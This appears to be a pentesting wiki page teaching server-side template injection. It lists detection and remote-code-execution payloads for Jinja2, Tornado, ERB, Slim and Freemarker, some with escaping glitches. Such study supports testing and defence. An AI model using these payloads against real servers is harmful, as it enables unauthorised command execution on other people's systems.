

# SSTI

Server-side template injection can be used for XSS, sensitive information disclosures, and even code execution.

**💡NOTE:**

To understand server-side template injection you must understand templates and to understand templates you must understand the model–view–controller design pattern.

View is used to manipulate the HTML code and is normally implemented using templates.

Templates allow you to have placeholders in your HTML code where you can pass in variables.

* Template engines can do all kinds of things such as calling functions and methods, looping over variables, and arithmetic.
* EX: the expression “\{{Title\}}” will be replaced by whatever argument is passed to the template engine:

```html
  <head>
    <title>{{Title}}</title>
  </head>
```

#### Model–view–controller design pattern

a user initiates a request to the controller -> controller uses the model to gather information from the back-end database -> information is passed back to the controller -> controller passes the information to the view the updated view is passed back to the controller -> sent to the user and rendered in the browser.

<figure><figcaption></figcaption></figure>

## Examples of Template Engines

### <mark style="color:yellow;">1. Python - Jinja 2</mark>

If you find server-side template injection in the Jinja 2 template engine the severity of your finding depends on what Python classes you have access to.

**Vulnerable code snippet:**

<figure><figcaption></figcaption></figure>

**Method Resolution Order (MRO):** is the order in which Python looks for a method in a hierarchy of classes.

* For this attack, we only care about the root object class.

**SSTI testing payloads:**

* \{{7\*7\}}        ->  49
* \{{7\*’7’\}}       ->  7777777
* \{{‘’.\_\_class\_\_.\_\_mro\[1]\}}    -> get the root object by the second index in the array.
* \{{\[].\_\_class\_\_.\_\_base\_\_\}}  -> get the root object on an empty array.
* \{{\[].\_\_class\_\_.\_\_mro\[1]\_\_subclasses\_\_()\}}  -> list all the subclasses of a class.

<mark style="color:green;">**For Code Execution:**</mark>

* \{{\[].\_\_class\_\_.\_\_mro\_\_\[1].\_\_subclasses\_\_()\[-3]\('whoami',shell=True,stdout=-1).communicate()\[0]\}}
* \{{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'].popen('whoami').read()\}}

### <mark style="color:yellow;">2. Python - Tornado</mark>

Tornado is a scalable, non-blocking web server and web application framework written in Python.

**Vulnerable code snippet:**

<figure><figcaption></figcaption></figure>

**SSTI testing payloads:**

Any library available to Python is also available to the template engine, which means you can import a Python library and call it.

<mark style="color:green;">**For Code Execution:**</mark>

* { % import os %\}\{{ os.popen("whoami").read() \}}
* { % import subprocess %\}\{{ subprocess.Popen('whoami',shell=True,stdout=-1).communicate()\[0]\}}

### <mark style="color:yellow;">3. Ruby- ERB</mark>

Looks like a plain-text document interspersed with tags containing Ruby code.

**Vulnerable code snippet:**

<figure><figcaption></figcaption></figure>

**ERB tags for embedding code:**

* <% code %>   -> executes ruby code.
* <%= code %> -> executes ruby code and returns the results.

**SSTI testing payloads:**

* <%= 7 \* 7 %>   -> 49
* <%= 'whoami' %>
* <%= IO.popen('whoami').readlines() %>
* <%= require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
* <%= require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

### <mark style="color:yellow;">4. Ruby - Slim</mark>

Fast, lightweight templating engine with support for Rails 3 and later.

Like the ERB template engine, you can execute any ruby command you want.

**Vulnerable code snippet:**

<figure><figcaption></figcaption></figure>

**SSTI testing payloads:**

To execute a shell command just wrap your command in backticks.

* <mark style="color:green;">#{code}</mark>
* \#{ 'whoami' }

### <mark style="color:yellow;">5. Java - Freemarker</mark>

The most popular template engine for Java.

**Vulnerable code snippet:**

<figure><figcaption></figcaption></figure>

**SSTI testing payloads:**

The **new()** command is used to instantiate classes -> execute class can be used to execute shell commands.

* ${7\*7}  ->  49

<mark style="color:green;">**For Code Execution:**</mark>

* <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}
* \[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('whoami')}
* ${"freemarker.template.utility.Execute"?new()("whoami")}

